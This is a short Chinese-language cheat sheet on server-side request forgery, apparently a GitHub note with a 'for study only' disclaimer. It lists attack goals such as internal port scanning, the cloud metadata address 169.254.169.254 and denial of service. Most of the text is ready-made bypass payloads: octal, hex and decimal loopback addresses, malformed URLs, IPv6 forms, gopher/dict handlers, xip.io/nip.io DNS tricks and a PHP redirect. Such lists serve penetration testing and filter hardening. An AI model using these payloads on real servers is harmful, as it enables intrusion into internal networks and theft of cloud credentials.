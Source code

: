 # SSRF

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 利用方式

- 内部端口扫描
- Leverage cloud services
    - 169.254.169.254
        - https://www.ibm.com/developerworks/cn/cloud/library/1620-openstack-metadata-service/index.html
- reveal IP Address & HTTP Library
    - https://webhook.site/
- Download a very large file (Layer 7 DoS)

---

# 绕过方法

**特殊 IP**
```
http://0177.1/
http://0x7f.1/
http://127.000.000.1
https://520968996
```

> The latter can be calculated using http://www.subnetmask.info/

**错误 IP**
```
http://127.1
http://0
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3
http://127.1.1.1:80\@127.2.2.2:80/
```

**IPv6**

```
http://[::1]
http://[::]
http://[::]:80/
http://0000::1:80/
```

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**DNS 欺骗**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```

> http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

> http://nip.io

**重定向欺骗**
```
<?php header(“location: http://127.0.0.1"); ?>
```

**编码绕过**

这些包括十六进制编码，八进制编码，双字编码，URL 编码和混合编码。

```
127.0.0.1 translates to 0x7f.0x0.0x0.0x1
127.0.0.1 translates to 0177.0.0.01
http://127.0.0.1 translates to http://2130706433
localhost translates to %6c%6f%63%61%6c%68%6f%73%74
```
